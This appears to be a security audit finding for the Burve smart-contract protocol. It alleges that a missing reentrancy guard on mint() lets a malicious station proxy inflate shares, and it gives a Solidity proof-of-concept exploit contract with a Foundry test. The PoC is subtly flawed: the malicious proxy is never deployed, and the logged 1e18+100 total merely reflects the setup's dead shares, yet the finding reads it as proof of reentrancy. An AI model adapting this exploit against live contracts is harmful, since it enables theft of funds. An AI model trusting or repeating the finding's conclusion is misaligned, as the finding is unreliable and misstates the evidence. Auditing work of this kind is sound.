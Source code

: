 Young Carbon Duck

Medium

# Malicious StationProxy can inflate shares via reentrant mint() call, leading to broken accounting

### Summary

https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/single/Burve.sol#L226

A missing reentrancy guard in the Burve.mint() function will cause share inflation for the protocol, as a malicious stationProxy can trigger a nested reentrant mint during LP deposit. This inflates the totalSupply() and potentially affects any logic relying on shares (e.g., exit amounts, voting, yield distributions).

### Root Cause


In Burve.sol::mint() function does not include a nonReentrant guard.
During execution, it calls stationProxy.depositLP() before finalizing state updates.
If stationProxy is malicious, it can reenter mint() before the state updates, causing share inflation.

### Internal Pre-conditions

NA

### External Pre-conditions

NA

### Attack Path

1. Attacker deploys a malicious contract implementing IStationProxy.
2. This contract stores a reference to Burve, and in depositLP(), it reenters mint().
3. Attacker sets Burve.stationProxy = address(maliciousContract) using vm.store() (or via governance in real-world).
4. The initial mint() call triggers stationProxy.depositLP(...).
5. Malicious proxy reenters mint() before the first call finalizes.
6. The second mint is issued additional shares as if it were the first.
7. Total shares are inflated, allowing attacker to later burn or redeem more than they should.

### Impact

The Burve protocol suffers a loss of accounting integrity — users can inflate shares and potentially:
- Drain unclaimed yield over time.
- Manipulate totalSupply()-based accounting (e.g., voting, exit ratios).
- Grief the system or trigger unintended state updates.

### PoC

```solidity
contract MaliciousStationProxy is IStationProxy {
    Burve public burve;
    address public attacker;
    bool public hasReentered;

    constructor(address _burve, address _attacker) {
        burve = Burve(_burve);
        attacker = _attacker;
    }

    function depositLP(address, uint256, address) external override {
        if (!hasReentered) {
            hasReentered = true;
            burve.mint(attacker, 1e18, TickMath.getSqrtRatioAtTick(120), TickMath.getSqrtRatioAtTick(240)); // Trigger reentrancy
        }
    }

    function withdrawLP(address, uint256, address) external override {
        // No-op for test
    }

    function allowance(address, address, address) external pure override returns (uint256) {
        return 0;
    }

    function harvest() external override {
        // No-op for test
    }

    function migrate(IStationProxy) external override {
        // No-op for test
    }
}

contract ReentrancyPoC is Test {
    Burve burve;
    MockERC20 token0;
    MockERC20 token1;
    MockPool pool;
    MaliciousStationProxy maliciousStation;

    address attacker = address(this);

    function setUp() public {
        // Deploy mock tokens
        token0 = new MockERC20("TK0", "TK0", 18);
        token1 = new MockERC20("TK1", "TK1", 18);

        // Deploy mock pool
        pool = new MockPool(address(token0), address(token1));

        // Define ranges and weights
        TickRange[] memory ranges = new TickRange[](1);
        uint128[] memory weights = new uint128[](1);

        ranges[0] = TickRange({lower: 120, upper: 240});
        weights[0] = 1;

        // Deploy Burve contract
        burve = new Burve(
            address(pool),
            address(0), // No island
            address(maliciousStation),
            ranges,
            weights
        );

        // Overwrite the `stationProxy` slot (5th declared var => slot 4)
        vm.store(address(burve), bytes32(uint256(4)), bytes32(uint256(uint160(address(maliciousStation)))));

        // Perform the first mint to satisfy the contract's requirements
        uint256 minDeadShares = 100;
        uint160 lowerSqrtPriceLimitX96 = TickMath.getSqrtRatioAtTick(120);
        uint160 upperSqrtPriceLimitX96 = TickMath.getSqrtRatioAtTick(240);

        vm.startPrank(address(this)); // Simulate the contract calling itself
        burve.mint(
            address(burve), // Recipient must be the contract itself
            uint128(minDeadShares),  // Minimum dead shares
            lowerSqrtPriceLimitX96,
            upperSqrtPriceLimitX96
        );
        vm.stopPrank();
    }

    function testReentrancyAttack() public {
        // Calculate valid price limits
        uint160 lowerSqrtPriceLimitX96 = TickMath.getSqrtRatioAtTick(120);
        uint160 upperSqrtPriceLimitX96 = TickMath.getSqrtRatioAtTick(240);

        // Initial mint call triggers reentrant mint inside depositLP
        burve.mint(attacker, 1e18, lowerSqrtPriceLimitX96, upperSqrtPriceLimitX96);

        // Check if shares are over-minted due to reentrancy
        uint256 totalShares = burve.totalSupply();
        emit log_named_uint("Total shares after reentrancy:", totalShares);

        // If no guard, total shares = 2e18. Otherwise, should be 1e18.
        assertGt(totalShares, 1e18, "Reentrancy did not result in extra shares");
    }
}
```

[PASS] testReentrancyAttack()
Logs: Total shares after reentrancy:: 1000000000000000100

Expected 1e18, but got 1e18 + 100 shares due to nested mint.

![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/3337df39-90e3-40fd-8862-ad518243d819)

### Mitigation

Add nonReentrant modifier (or equivalent custom guard) to Burve.mint() and any other sensitive function making external calls before updating critical state.